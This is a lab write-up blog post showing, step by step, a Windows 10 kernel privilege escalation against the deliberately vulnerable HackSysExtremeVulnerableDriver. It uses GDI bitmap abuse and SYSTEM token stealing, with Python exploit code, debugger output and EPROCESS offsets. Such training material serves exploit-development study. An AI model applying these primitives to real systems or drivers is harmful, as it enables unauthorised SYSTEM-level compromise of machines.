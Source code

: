 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver GDI Bitmap Abuse
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 10 1511 Feb 2016  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Make sure our arbitrary write still works as expected on Win 10.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Well, I got the feedback, it work fine!
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

Take it easy~ 

Now, I will create a Bitmap objects, and try to find where it is.
```
HBITMAP CreateBitmap（
 _In_ int nWidth，
 _In_ int nHeight，
 _In_ UINT cPlanes，
 _In_ UINT cBitsPerPel，
 _In_ const VOID * lpvBits
);
```

Execute this script, the process will be hung up.
```
import sys,time
from ctypes import *

kernel32 = windll.kernel32
gdi32 = windll.gdi32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
	
bmp = gdi32.CreateBitmap(0x64,0x64,1,32)
print "[+] Bitmap objects Addr: {0}".format(hex(bmp))

kernel32.DebugBreak()
kernel32.DebugBreak()

while True:
  time.sleep(60*60*24)
```

The handle is printed.
```
C:\Users\wooy0ung>python C:\Users\wooy0ung\Desktop\poc.py
[+] Bitmap objects Addr: 0x20050b46
```

Try to find out the "GdiSharedHandleTable" step by step.
```
kd> !process 0 0 python.exe
PROCESS ffffe00058481840
    SessionId: 1  Cid: 0584    Peb: 002ad000  ParentCid: 02f8
    DirBase: 42277000  ObjectTable: ffffc000e4cf6ac0  HandleCount: <Data Not Accessible>
    Image: python.exe

kd> .process ffffe00058481840
Implicit process is now ffffe000`58481840
WARNING: .cache forcedecodeuser is not enabled
kd> .context
User-mode page directory base is 42277000
kd> r $peb
$peb=00000000002ad000
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
```

GdiSharedHandleTable is a pointer array, we access the array by last two bytes of bitmap handles in order[GdiSharedHandleTable + (handle & 0xffff) * (x64:0x18,x86:0x10]
```
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
kd> dq 0x00000000`00b90000 + (0x6105104c & 0xffff)*0x18 L3
00000000`00ba8720  fffff901`44895000 40056105`00000584
00000000`00ba8730  00000000`00000000
```
Addr of the Bitmap which I create just now may be 0xfffff90144895000 while the PID is 1412(0x584)

We can verify the Addr by ProcessHacker.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x001.png)

When we create a Bitmap object, SURFACE OBJECT will be created, including BASEOBJECT、SURFOBJECT and pvScan0 which belongs to the SURFOBJECT pointing to the Pixel Data.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x002.png)
```
typedef struct {
 BASEOBJECT64   BaseObject;
 SURFOBJ64      SurfObj; 
 .......
} SURFACE64

typedef struct {
 ULONG64    hHmgr;
 ULONG32    ulShareCount;
 WORD       cExclusiveLock;
 WORD       BaseFlags;
 ULONG64    Tid;
} BASEOBJECT64;

typedef struct {
 ULONG64    dhsurf;
 ULONG64    hsurf;
 ULONG64    dhpdev;
 ULONG64    hdev;
 SIZEL      sizlBitmap;
 ULONG64    cjBits;
 ULONG64    pvBits;
 ULONG64    pvScan0;
 ULONG32    lDelta;
 ULONG32    iUniq;
 ULONG32    iBitmapFormat;
 USHORT     iType;
 USHORT     fjBitmap;
} SURFOBJ64
```

Declare two Bitmap objects(hManager, hWorker). Set hManager's pvScan0 to the Addr of hWorker's pvScan0. Well, we may use the ArbitratyOverwrite vulnerability.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x003.png)

But first, we should get GdiSharedHandleTable Addr
```
pbi = PROCESS_BASIC_INFORMATION()
ntdll.NtQueryInformationProcess.argtypes = (HANDLE, UINT, c_void_p, ULONG, POINTER(ULONG))
ntdll.NtQueryInformationProcess(kernel32.GetCurrentProcess(), 0, byref(pbi), sizeof(pbi), None)
peb = pbi.PebBaseAddress.contents
gdiHandleTable = peb.GdiSharedHandleTable
print "[+] GdiSharedHandleTable : {0}".format(hex(gdiHandleTable))
```

Then I will calculate pvscan0 offset of every Bitmap objects of which I created.
```
ptr = gdiHandleTable + (hManager & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hManager_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hManager_pvscan0_off : {0}".format(hex(hManager_pvscan0_off))

ptr = gdiHandleTable + (hWorker & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hWorker_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hWorker_pvscan0_off  : {0}".format(hex(hWorker_pvscan0_off))
```

Using our arbitrary write we want to set the pvScan0 address for the "manager" bitmap to point at the pvScan0 address of the "worker" bitmap.
```
write_where = hManager_pvscan0_off
write_what_ptr = c_void_p(hWorker_pvscan0_off)
buf = struct.pack("<Q", write_what_ptr) + struct.pack("<Q", write_where)
buf_ptr = id(buf) + 0x20
buflen = len(buf)
kernel32.DeviceIoControl(hevDevice, 0x22200B, buf_ptr, buflen, None, 0,byref(c_ulong()), None)
```

Check if this is valid.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x004.png)
Success. Now, I may read and write a specific memory with GetBitmapBits and SetBitmapBits method.

PsInitialSystemProcess is a global variable containing the EPROCESS structure address of the SYSTEM process. Therefore, we can get the EPROCESS of the SYSTEM process by looking up the address in the kernel land.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x005.png)

And now, I should calculate the offset of some important property. There is a good news that we find out the SYSTEM EPROCESS Addr(0xffffe0008425d040 at this time). Let's set a breakpoint~
```
kd> dt _EPROCESS UniqueProcessId ActiveProcessLinks
ntdll!_EPROCESS
   +0x2e8 UniqueProcessId    : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
kd> dt _EPROCESS ImageFileName Token
ntdll!_EPROCESS
   +0x358 Token         : _EX_FAST_REF
   +0x450 ImageFileName : [15] UChar
```

Clearly, I get the offset!
```
token_off = 0x358
unique_process_id_off = 0x2e8
active_process_links_off = 0x2f0
```

Next step, find CURRENT EPROCESS structure, then, copy system token to the current process.

finally, pop a system cmd.
```
...
system_token = c_ulonglong()
read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));

Popen("start cmd", shell=True)
```

pwn~
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x006.png)


## 0x003 Reference

[Part 17: Kernel Exploitation -> GDI Bitmap Abuse (Win7-10 32/64bit)](http://www.fuzzysecurity.com/tutorials/expDev/21.html)  
[Window Kernel Exploit -> GDI Bitmap Abuse](http://gflow.co.kr/window-kernel-exploit-gdi-bitmap-abuse/)  
[Techwiki:Win32k/BASEOBJECT](https://www.reactos.org/wiki/Techwiki:Win32k/BASEOBJECT)  